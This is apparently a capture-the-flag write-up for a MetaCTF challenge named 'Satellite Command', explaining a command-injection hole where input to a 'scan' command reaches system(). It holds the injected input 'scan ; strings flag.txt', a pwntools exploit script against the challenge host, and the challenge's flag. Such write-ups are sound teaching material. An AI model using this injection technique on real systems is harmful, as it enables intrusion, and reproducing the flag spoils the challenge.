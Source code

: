 # Satellite Command - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/SatelliteCommand.gif)

---

## Challenge Summary

The binary simulates a satellite command interface with several options, including a `scan` command that takes a directory name as input and internally constructs a shell command like:

```
ls -l ./satellite/<user_input>
```

The program then executes it using `system()`. Although it checks for blocked terms via `is_blocked()`, if `flag.txt` is not filtered or if the filter is bypassable. Due to unsanitized input, it's possible to inject shell metacharacters such as ; to execute arbitrary commands

---

## Binary Information

```bash
$ file challenge
```

![Alt text](img/2.png)

```bash
$ pwn checksec challenge
```

![Alt text](img/3.png)

---

## Static Analysis (IDA Pro)

In IDA Pro, the `main()` function reveals a loop-based command handler that reads user input using `fgets()` into a 128-byte buffer. The input is then compared against several command strings (`help`, `status`, `scan`, etc.).

For the `scan` command:

- The input is parsed and passed to `snprintf()` to build a shell command:

  ```c
  snprintf(
                (unsigned int)v26,
                256,
                (unsigned int)"ls -l ./satellite/%s 2>/dev/null",
                (unsigned int)v25,
                v11,
                v12,
                (char)v25);
  ```

![Alt text](img/4.png)

- This command is then executed with `system()`.

Before execution, the input is checked by a function called `is_blocked()`, which attempts to detect blacklisted terms. However, this filter can potentially be bypassed using shell metacharacters (e.g., `;`) or obfuscated input.

Because the `system()` call is based on unsanitized user input, the program is vulnerable to **command injection**, allowing unintended command execution like `strings flag.txt`.

---

## Exploit Strategy

To exploit the vulnerability, supply a crafted input using shell metacharacters via the `scan` command. For example:

```
scan ; strings flag.txt
```

This input causes the program to construct and execute:

```
ls -l ./satellite/; strings flag.txt 2>/dev/null
```

Since the input is passed directly to `system()` without proper sanitization, the injected `strings flag.txt` command executes after the semicolon. If `is_blocked()` does not filter `;` or if it can be bypassed, the attacker gains arbitrary command execution and can read the flag.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template challenge --host host5.metaproblems.com --port 7538
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'challenge')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host5.metaproblems.com'
port = int(args.PORT or 7538)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

payload = b'scan ;strings flag.txt'
io.sendline(payload)
io.recvuntil(b'drwxr-xr-x')
for i in range(5) :
    io.recvline()

flag = io.recvline().strip()
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")
```

---

## Exploit Output

![Alt text](img/5.png)

---

## Vulnerability Summary

The program builds a shell command using unsanitized user input and executes it with `system()`. Although it uses a basic filter (`is_blocked()`), it fails to fully sanitize shell metacharacters. This allows **command injection** via inputs like `scan ; strings flag.txt`, enabling arbitrary command execution.

---

## Flag

```
MetaCTF{a7_l3a$t_r3al_c0mm4nd_4nd_c0ntr0l_u53s_3ncryp710n}
```
